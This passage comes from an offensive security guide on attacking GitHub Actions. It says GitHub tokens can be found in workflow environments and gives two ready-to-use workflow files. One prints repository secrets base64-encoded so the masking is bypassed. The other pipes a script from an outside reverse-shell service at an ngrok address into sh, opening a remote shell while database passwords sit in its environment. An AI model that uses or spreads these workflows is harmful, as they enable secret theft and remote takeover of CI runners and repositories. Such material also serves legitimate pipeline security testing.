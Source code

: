 ```bash
  -d '{"head":"<branch_name>","base":"master", "title":"title"}'
```

{% hint style="danger" %}
Note that in several occasions you will be able to find **github user tokens inside Github Actions envs or in the secrets**. These tokens may give you more privileges over the repository and organization.
{% endhint %}

#### List secrets in Github Action output

```yaml
name: list_env
on:
  workflow_dispatch: # Launch manually
  pull_request: #Run it when a PR is created to a branch
    branches:
      - '**'
  push: # Run it when a push is made to a branch
    branches:
      - '**'
jobs:     
  List_env:
    runs-on: ubuntu-latest
    steps:
      - name: List Env
        # Need to base64 encode or github will change the secret value for "***"
        run: sh -c 'env | grep "secret_" | base64 -w0'
        env:
          secret_myql_pass: ${{secrets.MYSQL_PASSWORD}}
          secret_postgress_pass: ${{secrets.POSTGRESS_PASSWORDyaml}}
```

#### Get reverse shell with secrets

```yaml
name: revshell
on:
  workflow_dispatch: # Launch manually
  pull_request: #Run it when a PR is created to a branch
    branches:
      - '**'
  push: # Run it when a push is made to a branch
    branches:
      - '**'
jobs:     
  create_pull_request:
    runs-on: ubuntu-latest
    steps:
      - name: Get Rev Shell
        run: sh -c 'curl https://reverse-shell.sh/2.tcp.ngrok.io:15217 | sh'
        env:
          secret_myql_pass: ${{secrets.MYSQL_PASSWORD}}
          secret_postgress_pass: ${{secrets.POSTGRESS_PASSWORDyaml}}
```
